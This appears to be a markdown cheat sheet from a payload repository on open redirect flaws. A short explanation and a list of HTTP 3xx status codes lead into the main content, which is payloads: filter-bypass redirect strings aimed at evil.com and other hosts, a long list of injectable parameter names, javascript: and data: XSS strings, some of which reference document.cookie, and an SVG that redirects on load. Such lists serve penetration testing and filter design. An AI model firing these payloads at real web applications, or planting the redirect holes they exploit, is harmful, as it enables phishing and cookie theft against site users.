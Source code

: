 # Open Redirect
Un-validated redirects and forwards are possible when a web application accepts untrusted input that could cause the web application to redirect the request to a URL contained within untrusted input. By modifying untrusted URL input to a malicious site, an attacker may successfully launch a phishing scam and steal user credentials.

## HTTP Redirection Status Code
HTTP Redirection status codes, those starting with 3, indicate that the client must take additional action to complete the request. Here are some of the most common ones:

* [300 Multiple Choices](https://httpstatuses.com/300) - This indicates that the request has more than one possible response. The client should choose one of them.
* [301 Moved Permanently](https://httpstatuses.com/301) - This means that the resource requested has been permanently moved to the URL given by the Location headers. All future requests should use the new URI.
* [302 Found](https://httpstatuses.com/302) - This response code means that the resource requested has been temporarily moved to the URL given by the Location headers. Unlike 301, it does not mean that the resource has been permanently moved, just that it is temporarily located somewhere else.
* [303 See Other](https://httpstatuses.com/303) - The server sends this response to direct the client to get the requested resource at another URI with a GET request.
* [304 Not Modified](https://httpstatuses.com/304) - This is used for caching purposes. It tells the client that the response has not been modified, so the client can continue to use the same cached version of the response.
* [305 Use Proxy](https://httpstatuses.com/305) - The requested resource must be accessed through a proxy provided in the Location header.
* [307 Temporary Redirect](https://httpstatuses.com/307) - This means that the resource requested has been temporarily moved to the URL given by the Location headers, and future requests should still use the original URI.
* [308 Permanent Redirect](https://httpstatuses.com/308) - This means the resource has been permanently moved to the URL given by the Location headers, and future requests should use the new URI. It is similar to 301 but does not allow the HTTP method to change.

## Filter Bypass
Using a whitelisted domain or keyword
```html
www.whitelisted.com.evil.com redirect to evil.com

```
Using CRLF to bypass "javascript" blacklisted keyword
```html
java%0d%0ascript%0d%0a:alert(0)

```
Using "//" & "////" to bypass "http" blacklisted keyword
```html
//google.com
////google.com

```
Using "https:" to bypass "//" blacklisted keyword
```html
https:google.com

```
Using "//" to bypass "//" blacklisted keyword (Browsers see // as //)
```html
\/\/google.com/
/\/google.com/

```
Using "%E3%80%82" to bypass "." blacklisted character
```html
/?redir=google。com
//google%E3%80%82com

```
Using null byte "%00" to bypass blacklist filter
```html
//google%00.com

```
Using parameter pollution
```html
?next=whitelisted.com&next=google.com

```
Using "@" character, browser will redirect to anything after the "@"
```html
http://www.theirsite.com@yoursite.com/

```
Creating folder as their domain
```html
http://www.yoursite.com/http://www.theirsite.com/
http://www.yoursite.com/folder/www.folder.com

```
Using "?" characted, browser will translate it to "/?"
```html
http://www.yoursite.com?http://www.theirsite.com/
http://www.yoursite.com?folder/www.folder.com

```
Host/Split Unicode Normalization
```html
https://evil.c℀.example.com . ---> https://evil.ca/c.example.com
http://a.com／X.b.com

```
XSS from Open URL - If it's in a JS variable
```html
";alert(0);//

```
XSS from data:// wrapper
```html
http://www.example.com/redirect.php?url=data:text/html;base64,PHNjcmlwdD5hbGVydCgiWFNTIik7PC9zY3JpcHQ+Cg==

```
XSS from javascript:// wrapper
```html
http://www.example.com/redirect.php?url=javascript:prompt(1)

```
## Common injection parameters
```html
/{payload}
?next={payload}
?url={payload}
?target={payload}
?rurl={payload}
?dest={payload}
?destination={payload}
?redir={payload}
?redirect_uri={payload}
?redirect_url={payload}
?redirect={payload}
/redirect/{payload}
/cgi-bin/redirect.cgi?{payload}
/out/{payload}
/out?{payload}
?view={payload}
/login?to={payload}
?image_url={payload}
?go={payload}
?return={payload}
?returnTo={payload}
?return_to={payload}
?checkout_url={payload}
?continue={payload}
?return_path={payload}
success=https://c1h2e1.github.io
data=https://c1h2e1.github.io
qurl=https://c1h2e1.github.io
login=https://c1h2e1.github.io
logout=https://c1h2e1.github.io
ext=https://c1h2e1.github.io
clickurl=https://c1h2e1.github.io
goto=https://c1h2e1.github.io
rit_url=https://c1h2e1.github.io
forward_url=https://c1h2e1.github.io
@https://c1h2e1.github.io
forward=https://c1h2e1.github.io
pic=https://c1h2e1.github.io
callback_url=https://c1h2e1.github.io
jump=https://c1h2e1.github.io
jump_url=https://c1h2e1.github.io
click?u=https://c1h2e1.github.io
originUrl=https://c1h2e1.github.io
origin=https://c1h2e1.github.io
Url=https://c1h2e1.github.io
desturl=https://c1h2e1.github.io
u=https://c1h2e1.github.io
page=https://c1h2e1.github.io
u1=https://c1h2e1.github.io
action=https://c1h2e1.github.io
action_url=https://c1h2e1.github.io
Redirect=https://c1h2e1.github.io
sp_url=https://c1h2e1.github.io
service=https://c1h2e1.github.io
recurl=https://c1h2e1.github.io
j?url=https://c1h2e1.github.io
url=//https://c1h2e1.github.io
uri=https://c1h2e1.github.io
u=https://c1h2e1.github.io
allinurl:https://c1h2e1.github.io
q=https://c1h2e1.github.io
link=https://c1h2e1.github.io
src=https://c1h2e1.github.io
tc?src=https://c1h2e1.github.io
linkAddress=https://c1h2e1.github.io
location=https://c1h2e1.github.io
burl=https://c1h2e1.github.io
request=https://c1h2e1.github.io
backurl=https://c1h2e1.github.io
RedirectUrl=https://c1h2e1.github.io
Redirect=https://c1h2e1.github.io
ReturnUrl=https://c1h2e1.github.io
```
**Open Redirect to XSS**
```javascript
#Basic payload, javascript code is executed after "javascript:"
javascript:alert(1)

#Bypass "javascript" word filter with CRLF
java%0d%0ascript%0d%0a:alert(0)

#Javascript with "://" (Notice that in JS "//" is a line coment, so new line is created before the payload). URL double encoding is needed
#This bypasses FILTER_VALIDATE_URL os PHP
javascript://%250Aalert(1)

#Variation of "javascript://" bypass when a query is also needed (using comments or ternary operator)
javascript://%250Aalert(1)//?1
javascript://%250A1?alert(1):0

#Others
%09Jav%09ascript:alert(document.domain)
javascript://%250Alert(document.location=document.cookie)
/%09/javascript:alert(1);
/%09/javascript:alert(1)
//%5cjavascript:alert(1);
//%5cjavascript:alert(1)
/%5cjavascript:alert(1);
/%5cjavascript:alert(1)
javascript://%0aalert(1)
<>javascript:alert(1);
//javascript:alert(1);
//javascript:alert(1)
/javascript:alert(1);
/javascript:alert(1)
\j\av\a\s\cr\i\pt\:\a\l\ert\(1\)
javascript:alert(1);
javascript:alert(1)
javascripT://anything%0D%0A%0D%0Awindow.alert(document.cookie)
javascript:confirm(1)
javascript://https://whitelisted.com/?z=%0Aalert(1)
javascript:prompt(1)
jaVAscript://whitelisted.com//%0d%0aalert(1);//
javascript://whitelisted.com?%a0alert%281%29
/x:1/:///%01javascript:alert(document.cookie)/
";alert(0);//

```
**Open Redirect uploading svg files**
```html
<code>
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<svg
onload="window.location='http://www.example.com'"
xmlns="http://www.w3.org/2000/svg">
</svg>
</code>
```
## Tools
* Burp Suite Intruder / Repeater / Logger++ (Use this extension in Burp Suite for detect pattern)
* https://github.com/r0075h3ll/Oralyzer





